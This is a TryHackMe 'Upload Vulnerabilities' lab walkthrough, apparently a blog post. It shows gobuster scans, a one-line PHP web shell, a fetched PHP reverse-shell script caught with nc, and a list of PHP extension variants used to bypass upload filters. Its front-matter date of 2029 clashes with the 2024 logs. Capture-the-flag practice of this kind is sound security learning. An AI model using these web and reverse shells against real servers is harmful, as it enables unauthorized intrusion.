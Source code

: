 ```yaml
---
layout: post
title:  "Upload Vulnerabilities"
date:   2029-01-24 13:50:01 -0600
categories: TryHackMe
image: /assets/img/uploadvulns.png
---
```


first edit the host file and begin

``` bash
#/bin/sh
echo "10.10.232.106    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm" >> /etc/hosts
```

In the gobuster part
```
gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://shell.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/01/30 00:33:15 Starting gobuster
===============================================================
/REDACTED (Status: 301)
/assets (Status: 301)
/server-status (Status: 403)
===============================================================
2024/01/30 01:03:05 Finished
===============================================================
root@ip-10-10-106-1:~# 

```

Get either a web shell or a reverse shell on the machine.
Let's try a web shell first!

I'll create a file webshell.php
```
<?php echo system($_GET["cmd"]);?>
```
After several tries and remembering the path that I got from gobuster
```
view-source:http://shell.uploadvulns.thm/{REDACTED}/webshell.php?cmd=cat%20/var/www/flag.txt
```
But I like the reverse shell better

```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

--2024-01-30 01:08:39--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: \u2018php-reverse-shell.php\u2019

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0s      

2024-01-30 01:08:39 (51.5 MB/s) - \u2018php-reverse-shell.php\u2019 saved [5491/5491]

sudo nano php-reverse-shell.php 

```
Then change to my AttackBox IP and port 9000

```
root@ip-10-10-106-1:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)

```
After figuring out that only 1 web file was loaded, I had to restart the machine and do it again to make it work, but eventually I got:
```
root@ip-10-10-106-1:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)
Connection from 10.10.120.163 33744 received!
Linux f300b6aced54 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:35:34 up 1 min,  0 users,  load average: 0.62, 0.41, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /var/www/flag.txt
```

Bypassing Client-side filtering
```
gobuster dir -u http://java.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://java.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/01/30 20:39:03 Starting gobuster
===============================================================
/{REDACTED} (Status: 301)
/assets (Status: 301)
/server-status (Status: 403)

```
I initially had a hard time with Burpsuite, but maybe because I was distracted.  I managed to get the shell uploaded but couldn't get the reverse listener to work.

My guess is that my parameter was missing in the reverse shell script, but perhaps its better just to restart everything fresh.  I originally thought it may have something to do with the magic numbers, but managed to upload successfully and get the flag.  Whew!
```
root@ip-10-10-34-10:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)
Connection from 10.10.209.29 33950 received!
Linux a73553061b26 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:19:17 up 31 min,  0 users,  load average: 0.00, 0.00, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
THM{NDll(REDACTED)}

```

## Bypassing Server-Side Filtering:  File Extensions

Gobuster again!
```
gobuster dir -u http://annex.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://annex.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/01/31 01:35:16 Starting gobuster
===============================================================
/privacy (Status: 301)
/assets (Status: 301)
/server-status (Status: 403)
Progress: 146849 / 220561 (66.58%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/01/31 01:45:03 Finished

```
While its running I'm thinking of using Burp Suite Intuder to change it against different file types since it will be most likely looking for php
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
But this didn't work

I manually edit the file type extension and got lucky
![Image of uploadvulns]({{site.baseurl}}/assets/img/uploadvulns-bypass-server-side-filtering.png
)

```
root@ip-10-10-34-10:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)
Connection from 10.10.209.29 44902 received!
Linux a2b9a5609bd8 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:00:04 up  1:12,  0 users,  load average: 0.00, 0.04, 0.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
THM{MGE{READACTED}

```

